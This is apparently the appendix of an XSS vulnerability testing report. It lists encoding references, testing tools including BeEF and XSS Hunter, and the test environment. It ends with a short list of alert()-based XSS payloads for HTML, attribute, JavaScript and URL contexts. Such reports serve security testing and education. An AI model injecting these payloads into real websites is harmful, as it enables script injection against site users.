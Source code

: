 ### 📖 Context-Specific Encoding
- [HTML Entity Encoding](https://www.w3.org/International/questions/qa-escapes)
- [JavaScript Encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#rule-3-javascript-encode-before-inserting-untrusted-data-into-javascript-data-values)
- [CSS Encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#rule-4-css-encode-and-strictly-validate-before-inserting-untrusted-data-into-html-style-property-values)

### 🛠️ Security Tools
- [XSS Hunter](https://xsshunter.com/) - Blind XSS detection
- [BeEF](https://beefproject.com/) - Browser exploitation framework
- [DOMPurify](https://github.com/cure53/DOMPurify) - DOM-only XSS sanitizer

---

## 📋 Appendix

### 🔧 Tools Used
- **Burp Suite Professional**: Version 2023.x - Manual testing and payload crafting
- **OWASP ZAP**: Version 2.12.x - Automated XSS scanning
- **Browser Developer Tools**: Chrome DevTools for DOM analysis

### 📊 Testing Environment
- **Browser**: Chrome 108.0.5359.124
- **Operating System**: Ubuntu 22.04 LTS
- **Testing Date**: [Date of testing]
- **Testing Duration**: 1.5 hours

### 📝 Additional Payload Variations

#### Context-Specific Payloads
```html
<!-- HTML Context -->
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

<!-- Attribute Context -->
" onmouseover="alert('XSS')" "
' onfocus='alert("XSS")' autofocus '

<!-- JavaScript Context -->
'; alert('XSS'); //
'; alert('XSS'); var dummy='

<!-- URL Context -->
javascript:alert('XSS')
data:text/html,<script>alert('XSS')</script>
```
